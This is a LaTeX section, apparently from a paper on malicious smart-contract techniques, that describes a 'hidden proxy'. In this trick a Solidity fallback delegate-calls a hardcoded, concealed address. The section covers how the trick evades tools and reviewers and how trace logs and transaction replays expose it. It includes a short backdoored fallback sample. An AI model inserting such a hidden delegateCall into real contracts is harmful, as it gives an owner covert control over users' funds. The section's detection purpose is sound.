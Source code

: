 \section{Hidden Proxy}

\subsection{Technical Details}

Here, the contract advertises functionalities through its sources but actually redirects to another contract.

One common way to achieve this is to performs \lstinline{delegateCall} on any unknown selector, via the fallback.

The exposed functionalities are not meaningful, the logic is located at a seemingly unrelated \& hidden address.

The target address can be hardcoded or passed as an argument, making it stealthier.

\subsection{Evasion Targets}

This technique stacks another layer of evasion on top those mentioned in \ref{sec:hiding-in-plain-sight}:

\begin{description}
\item[tools]{testing visible code does not bring out the malicious part}
\item[reviewers]{the proxy address may not even be in the byte / source code}
\end{description}

\subsection{Samples}

A malicious fallback can be inserted into an expensive codebase:

\begin{lstlisting}[language=Solidity]
fallback () external {
	if (msg.sender == owner()) {
		(bool success, bytes memory data) = address(0x25B072502FB398eb4f428D60D01f18e8Ffa01448).delegateCall(
			msg.data
		);
	}
}
\end{lstlisting}

\subsection{Detection \& Countermeasures}

In addition to the sources \& indicators mentioned in \ref{sec:hiding-in-plain-sight}:

\begin{description}
\item[history]{the hidden proxy address can be found in the trace logs}
\item[upgrades]{replaying transactions before / after upgrades may show significant differences}
\end{description}

